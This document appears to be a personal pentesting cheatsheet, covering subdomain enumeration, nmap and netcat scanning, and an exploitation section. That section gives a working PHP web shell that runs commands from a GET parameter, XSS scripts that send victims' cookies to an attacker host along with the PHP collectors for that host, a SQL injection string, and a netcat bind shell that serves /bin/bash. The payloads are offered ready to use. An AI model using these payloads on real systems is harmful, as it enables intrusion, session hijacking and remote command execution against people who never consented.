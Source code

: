 # Pentesting Cheatsheet

## Information Gathering
Sub Domains Enumeration
• Google

◇ site:pwns.com


• Virustotal

◇ Search site and it will give you a list of sub domains.


• dnsdumpster.com

◇ Free version limited

◇ Search site and it will give you list of sub domains.


• crt.sh

◇ Search site and get cert data and sub domains.


• sublist3r

◇ Tool in kali to search for sub domains.

◇ Careful because Google may block you.


• amass

◇ Linux tool sub domain enum.

## Reconnaissance
https://www.exploit-db.com/google-hacking-database

## Footprinting and Scanning

Mapping a network
• ping sweep

◇ fping -a -g IPRANGE 2>/dev/null

◇ nmap -sn IPRANGE

◇ nmap -sn -iL hostslist.txt




OS Fingerprinting
◇ nmap -Pn -O <target(s)>



Port Scanning
◇ nmap

▪ -sT performs a TCP connect scan

▪ -sS performs a SYN scan (stealthy)

▪ -sV performs a version detection scan

▪ tcpwrapped means that the TCP handshake was completed, but the remote host closed the connection without receiving any data.

▪ Use masscan for large port scans.

### Dirbuster

### netcat
• nc -v google.com 80

◇ This will return the header sent and the response.


• via - tells use that there is a proxy between us and the site.

• openssl s_client -connect google.com :443

◇ This  is what is used instead of nc to interact with ssl sites.

◇ Add -debug for more info


• OPTIONS / HTTP/1.1
Host: google.com

◇ Prints options allowed by server.






## Vulnerability Assessment
### burpsuite
### nessus

## Exploitation
### PHP Shell
PHP shell to use with PUT

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
<?php
if (isset($_GET['cmd']))
{
        $cmd = $_GET['cmd'];
        echo '<pre>';
        $result = shell_exec($cmd);
        echo $result;
        echo '</pre>';
}
?>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

You can use it by passing your command via the cmd GET parameter.
victim.site/shell.php?cmd=ls
^ this will list all the files in the directory ^

### Cross Site Scripting
Test input field for xss.
<h1>test</h1>

Script to save cookies to attker site. Add to comments type section on site.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
<script>
var i = new Image();
i.src="http://attaker.site/log.php?q="+document.cookie;
</script>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


log.php to host on attacker.site.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
<?php
$filename="/tmp/log.txt";
$fp=fopen($filename, ‘a’);
$cookie=$_GET['q'];
fwrite($fp, $cookie);
fclose($fp);
?>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



get.php to host on attack.site

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
<?php

$ip = $_SERVER['REMOTE_ADDR'];
$browser = $_SERVER['HTTP_USER_AGENT'];

$fp = fopen('jar.txt', ‘a’);

fwrite($fp, $ip.' '.$browser." \n");
fwrite($fp, urldecode($_SERVER['QUERY_STRING']). “ \n\n”);
fclose($fp);
?>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Script to save cookies to attacker.site. Add to comments type section on site.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
<script> var i = new Image(); i.src="http://attacker.site/get.php?cookie="+escape(document.cookie)</script>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

### SQL Injection
Basic sql injection
‘ OR ’a'='a

Query becomes
SELECT Name, Description FROM Products WHERE ID=' ‘ OR ‘a’='a';

When we talk about web app, user inputs are:
GET parameters
POST parameters
HTTP Headers
	user-agent
	cookie
	accept

#### sqlmap


## Persistence
Start listening server on hacked host.
```
nc -lvp 1337 -e /bin/bash
```
Access the shell using netcat from attacker box.
```
nc -v hackedBoxIP 1337
```
Now run any command you want to execute on the hacked host.


## Exfiltration
Find exfil options: https://github.com/stufus/egresscheck-framework
Exfil data over DNS: https://github.com/TryCatchHCF/PacketWhisper

## Analysis and Review

## Reporting

## Tips and Tricks
### Windows
Search windows host.
```
dir /s /b stringToSearch
```

### Python
Simple HTTP Server
```
python -m SimpleHTTPServer 8080
```
This is useful to get tools to a host.

### Command Line Scripting
Output error to /dev/null
append 2>/dev/null to command.

### SQL
SELECT <columns list> FROM <table> WHERE <condition>;

<SELECT statement> UNION <other SELECT statement>;

Comments
SELECT field FROM table; # this is a comment
SELECT field FROM table; -- this is a comment
